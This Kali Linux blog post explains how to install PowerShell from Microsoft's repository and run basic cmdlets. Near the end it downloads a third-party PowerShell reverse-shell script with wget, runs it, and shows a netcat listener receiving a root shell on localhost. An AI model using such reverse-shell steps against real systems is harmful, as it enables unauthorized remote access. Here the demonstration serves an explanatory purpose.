 ```yaml
---
title: "Installing PowerShell on Kali Linux"
date: Wed, 06 Jun 2018 00:00:00 +0000
draft: false
type: posts
---
```

# Installing PowerShell on Kali Linux

https://www.kali.org/blog/installing-powershell-on-kali-linux/images/powershell-on-kali-linux-v3.jpg



UPDATE NOV 2019 This post is out of date as of 2019 as powershell has been added to the primary repos. Just do a: apt update &amp;&amp; apt -y install powershell And you will have powershell on your system. Old Post You may already be aware that you can safely add external repositories to your

**UPDATE NOV 2019**
-------------------

This post is out of date as of 2019 as powershell has been added to the primary repos. Just do a:

```sh
apt update && apt -y install powershell
```

And you will have powershell on your system.

### Old Post

You may already be aware that you can safely [add external repositories to your Kali Linux installation](https://www.kali.org/blog/advanced-package-management-in-kali-linux/) but you may not be aware that one of the many repositories available online includes one from Microsoft that includes [PowerShell](https://github.com/PowerShell/PowerShell). The repository is for Debian but its packages install perfectly well on Kali, as we will show in this post.

### PowerShell Package Installation in Kali

We begin by installing the necessary dependencies, most of which should already be installed in your Kali installation by default:

```sh
apt update && apt -y install curl gnupg apt-transport-https
```

Next, we need to download and add the public repository GPG key so APT will trust the packages and alert you to any issues with package signatures:

```sh
curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
```

With the GPG key added, we proceed to add the Microsoft package repository to its own package list file under **/etc/apt/sources.list.d/** and update the list of available packages:

```sh
echo "deb [arch=amd64] https://packages.microsoft.com/repos/microsoft-debian-stretch-prod stretch main" > /etc/apt/sources.list.d/powershell.list
apt update
```

Finally, we proceed to install the powershell package:

```sh
apt -y install powershell
```

### Running PowerShell

When the package installation completes, running **pwsh** will start up PowerShell, presenting us with the familiar “PS” prompt:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root>
```

If you’re new to PowerShell, one of the first things you will likely want to do is update the built-in help, which can be done by running the **Update-Help** Cmdlet. This may take a little while to complete but only really needs to be run once in a rare while:

```console
PS /root> Update-Help
Updating Help for module Microsoft.PowerShell.Utility
Locating Help Content...
```

As you might expect, you won’t find all the commands you’re used to when using PowerShell on Windows but all of the core modules are present and the code is under constant development and improvement:

```console
PS /root> Get-Process -Name gnome*
NPM(K) PM(M) WS(M) CPU(s) Id SI ProcessName
------ ----- ----- ------ -- -- -----------
0 0.00 5.71 0.03 1073 072 gnome-keyring-d
0 0.00 9.80 0.19 659 649 gnome-session-b
0 0.00 13.72 0.36 1089 080 gnome-session-b
0 0.00 110.06 3.36 778 649 gnome-shell
0 0.00 277.15 27.85 1170 080 gnome-shell
0 0.00 11.77 0.09 1199 075 gnome-shell-cal
0 0.00 77.79 4.58 1381 080 gnome-software
0 0.00 36.58 2.03 1646 646 gnome-terminal-
```

One of the surprising things you _can_ do however, is use PowerShell to send a reverse shell to a Netcat listener. We came across a [small PowerShell reverse shell](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1) online and much to our surprise, it happily connected back to our listener:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root> wget -q https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1
PS /root> ./mini-reverse.ps1
────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -lvnp 413
listening on [any] 413 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59006
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux kali 4.15.0-kali3-amd64 #1 SMP Debian 4.15.17-1kali1 (2018-04-25) x86_64 GNU/Linux
```

We think it’s remarkable that, not only did Microsoft Open-source PowerShell, they’ve also been constantly updating and improving it, and having a public package repository for it makes installation a breeze.

#### [Source](https://www.kali.org/blog/installing-powershell-on-kali-linux/)

<br/>
---
